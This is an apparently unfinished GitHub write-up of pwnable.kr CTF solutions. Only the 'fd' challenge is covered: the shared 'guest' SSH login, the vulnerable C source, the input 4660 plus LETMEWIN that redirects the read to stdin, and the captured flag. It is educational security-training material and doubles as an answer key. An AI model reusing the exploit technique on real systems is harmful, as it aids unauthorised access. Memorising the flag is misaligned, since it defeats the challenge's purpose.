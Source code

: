 # My pwnable.kr solutions

The aim of these games is to find the flag, in fact they are real CTFs (Capture The Flags).

> [!WARNING]
> For more information about games visit [https://pwnable.kr/play.php](https://pwnable.kr/play.php).

> [!CAUTION]
> Registration is required to solve the games.

> [!WARNING]
> This repository is unfinished. Keep your expectations low.

## fd

Following the game instructions, you need to connect to a remote machine using the following command:

```
ssh fd@pwnable.kr -p2222
```

> [!WARNING]
> The password to access the remote machine is `guest`.

If everything went well you should get a result similar to this:

```
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@khu.ac.kr
- irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Mon Jul  1 03:16:08 2024 from 101.176.80.154
fd@pwnable:~$
```

Let's try using the `ls -la` command to see which files we have access to:

```
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 116 root   root 4096 Oct 30  2023 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

as you can imagine, the flag we are looking for is found inside the `flag` file, however, as you can imagine from the permissions, we cannot view the content, in fact using the `cat flag` command we obtain:

```
fd@pwnable:~$ cat flag 
cat: flag: Permission denied
```

We therefore note that there is an ELF file, i.e. `fd`, correlated by the `fd.c` source whose contents we can view using the `cat fd.c` command:

```
fd@pwnable:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

Well, let's just focus on the C language, so I'll write the code more plainly:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

> [!NOTE]
> I apologize for the very messy style but it wouldn't make sense to fix it because it is important to develop the ability to read, modify and exploit code written by others.

In this code we notice:

1. The ability to pass a number via command line, using `argv`.
2. That for the calculation of the file descriptor `fd` we have the difference between the string passed from the command line (converted into a number via `atoi()`) and the hexadecimal number `0x1234`.
3. That by inserting the string `LETMEWIN` it is possible to execute the command `system("/bin/cat flag");` which coincidentally is exactly what we need to find the flag.

Therefore, it is clear that to exploit this code to our advantage we will need to enter a number from the command line that allows us to redirect the `fd` file descriptor in our favor. Well this number is precisely the conversion into an integer of the number `0x1234` which can be obtained using the following command:

```
fd@pwnable:~$ python -c "print(int(0x1234))"
4660
```

In fact, the integer difference between `4660` and itself results in `fd = 0`. This means that the file descriptor is associated with `stdin`. So the `read()` function will read from `stdin` any data that we decide to write and in particular we should write the string `LETMEWIN`. Let's see it in action:

```
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Perfect, everything went according to plan! So as you can imagine the flag you are looking for is the following sentence:

```
mommy! I think I know what a file descriptor is!!
```

## collision

...
